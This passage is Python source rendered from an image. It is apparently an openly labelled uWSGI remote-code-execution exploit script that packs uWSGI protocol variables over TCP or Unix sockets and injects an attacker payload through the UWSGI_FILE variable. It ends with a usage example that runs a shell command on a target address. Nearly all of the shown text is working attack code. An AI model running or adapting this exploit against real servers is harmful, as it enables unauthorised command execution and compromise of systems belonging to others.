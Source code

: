 ```python
        uri = 'http://' + uri
    s = requests.Session()
    # s.headers['UWSGI_FILE'] = payload
    if body:
        import urlparse
        body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
        d = s.post(uri, data=body_d)
    else:
        d = s.get(uri)

    return {
        'code': d.status_code,
        'text': d.text,
        'header': d.headers
    }

def ask_uwsgi(addr_and_port, mode, var, body=''):
    if mode == 'tcp':
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(parse_addr(addr_and_port))
    elif mode == 'unix':
        s = socket.socket(socket.AF_UNIX)
        s.connect(addr_and_port)
    s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
    response = []
    # Actually we dont need the response, it will block if we run any commands.
    # So I comment all the receiving stuff. 
    # while 1:
    #     data = s.recv(4096)
    #     if not data:
    #         break
    #     response.append(data)
    s.close()
    return b''.join(response).decode('utf8')

def curl(mode, addr_and_port, payload, target_url):
    host, uri = get_host_from_url(target_url)
    path, _, qs = uri.partition('?')
    if mode == 'http':
        return fetch_data(addr_and_port+uri, payload)
    elif mode == 'tcp':
        host = host or parse_addr(addr_and_port)[0]
    else:
        host = addr_and_port
    var = {
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'REQUEST_METHOD': 'GET',
        'PATH_INFO': path,
        'REQUEST_URI': uri,
        'QUERY_STRING': qs,
        'SERVER_NAME': host,
        'HTTP_HOST': host,
        'UWSGI_FILE': payload,
        'SCRIPT_NAME': target_url
    }
    return ask_uwsgi(addr_and_port, mode, var)

def main(*args):
    desc = """
    This is a uwsgi client & RCE exploit.
    Last modifid at 2018-01-30 by wofeiwo@80sec.com
    """
    elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
```